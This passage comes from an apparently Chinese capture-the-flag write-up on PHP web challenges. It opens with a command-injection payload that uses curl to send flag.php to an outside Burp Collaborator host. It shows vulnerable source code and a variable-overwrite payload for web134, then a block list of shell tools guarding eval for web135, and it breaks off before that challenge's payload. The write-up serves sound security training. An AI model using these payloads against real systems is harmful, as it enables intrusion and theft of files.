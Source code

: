```
/?F=`$F` ;curl -X post -F xx=@flag.php http://zadcth92f5pgqbtmchfdumhi49a0yp.burpcollaborator.net;
```



### web134

```
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```

用`extract`进行变量覆盖

测试一下

```
parse_str($_SERVER['QUERY_STRING']);
var_dump($_POST);
//然后我们传入 _POST[‘a’]=123
会发现输出的结果为array(1) { ["‘a’"]=> string(3) “123” }
也就是说现在的$_POST[‘a’]存在并且值为123
```

**payload**

```
?_POST[key1]=36d&_POST[key2]=36d
```



### web135

```
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```

**payload**
